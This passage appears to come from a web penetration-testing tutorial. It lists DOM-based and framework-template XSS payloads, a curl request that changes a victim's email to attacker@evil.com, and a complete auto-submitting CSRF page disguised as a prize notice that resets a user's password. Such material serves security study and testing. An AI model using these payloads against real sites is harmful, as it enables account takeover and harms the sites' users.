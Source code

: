 ### Step 4.4: DOM-based XSS
```javascript
// Find sinks in JavaScript
document.write()
element.innerHTML = 
eval()
setTimeout()
setInterval()

// Example payload
http://target/page#<img src=x onerror=alert(1)>
```

### Step 4.5: XSS in Modern Frameworks
```html
<!-- React/Vue bypass -->
{{constructor.constructor('alert(1)')()}}

<!-- Angular -->
{{$on.constructor('alert(1)')()}}

<!-- Markdown XSS -->
[Click me](javascript:alert(1))
![](javascript:alert(1))
```

---

## 5. CSRF Attacks {#5-csrf-attacks}

### Step 5.1: Detection
```bash
# Check if anti-CSRF token exists
# Inspect form: <input name="csrf_token" value="...">

# Test without token
curl -X POST $TARGET/change-email -d "email=attacker@evil.com" \
  -H "Cookie: session=victim_session"
```

### Step 5.2: CSRF Exploit HTML
```html
<!-- csrf_exploit.html -->
<!DOCTYPE html>
<html>
<body>
  <h1>You won a prize!</h1>
  <form id="csrf" action="http://target.com/change-password" method="POST">
    <input type="hidden" name="password" value="hacked123">
  </form>
  <script>
    document.getElementById('csrf').submit();
  </script>
</body>
</html>
```
